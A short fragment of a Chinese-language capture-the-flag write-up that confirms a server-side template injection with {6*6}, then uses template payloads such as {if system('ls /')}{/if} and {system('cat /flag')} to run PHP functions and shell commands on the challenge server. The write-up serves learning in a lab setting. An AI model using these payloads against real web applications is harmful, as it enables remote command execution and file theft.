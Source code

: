 可以修改，测试{6*6}

![image-20250815083142624](./NSSCTF-5.assets/image-20250815083142624.png)

证明这里存在SSTI，之后尝试**{system('cat /flag')}**没有回显

接着测试**{if phpinfo()}{/if}**，说明可以执行php函数

```
{if system('ls /')}{/if}
```



![image-20250815083420320](./NSSCTF-5.assets/image-20250815083420320.png)

